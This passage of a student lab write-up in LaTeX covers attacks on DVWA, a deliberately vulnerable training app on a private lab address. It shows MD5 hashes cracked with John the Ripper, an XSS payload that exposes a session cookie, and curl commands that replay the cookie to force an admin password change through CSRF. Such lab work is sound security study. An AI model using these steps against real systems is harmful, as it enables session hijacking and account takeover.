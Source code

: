 \begin{enumerate}
\begin{itemize}
        \item \texttt{pablo:0d107d09f5bbe40cade3de5c71e9e9b7}
        \item \texttt{smithy:5f4dcc3b5aa765d61d8327deb882cf99}
    \end{itemize}
    \item By using JohnTheRipper, we can crack those passwords, resulting in the following:
    \begin{itemize}
        \item \texttt{admin:password}
        \item \texttt{gordonb:abc123}
        \item \texttt{1337:charley}
        \item \texttt{pablo:letmein}
        \item \texttt{smithy:password}
    \end{itemize}
\end{enumerate}



\section*{Activity3}

\begin{enumerate}
    \item When modifying the password, the server uses HTTP parameters (\texttt{password\_new} and \texttt{password\_conf}).\\
    This means any request can be formed to change the password for the \texttt{admin} user (hard-coded). But, when trying with \texttt{curl -L}\footnote{\texttt{-L to allow redirections.}}\texttt{ "http://192.168.56.3/dvwa/\\
    vulnerabilities/csrf/?password\_new=caca\&password\_conf=caca\&Change=Change\#"}, it redirects us to the login screen.\\
    This is because it recognises it's a new session (no cookies saved) and asks us to log in.
    \item As the for XSS Reflected input is not sanitized, we can add some custom code to be executed. Let's steal the session key.\\
    By inputting \texttt{<script>alert(document.cookie)</script>}, we can generate an alert that outputs the session cookie. For me, it was \texttt{security=low;\\
    PHPSESSID=374aa92f619ccb2be41df1fe0048e60b}.
    \item Thanks to the previous session cookie, we can update our request to include that cookie, as follows:\\
    \texttt{curl -b "security=low; PHPSESSID=374aa92f619ccb2be41df1fe0048e60b"\\
    -L "http://192.168.56.3/dvwa/vulnerabilities/csrf/\\
    ?password\_new=caca\&password\_conf=caca\&Change=Change\#"}\\
    Which works perfectly.
\end{enumerate}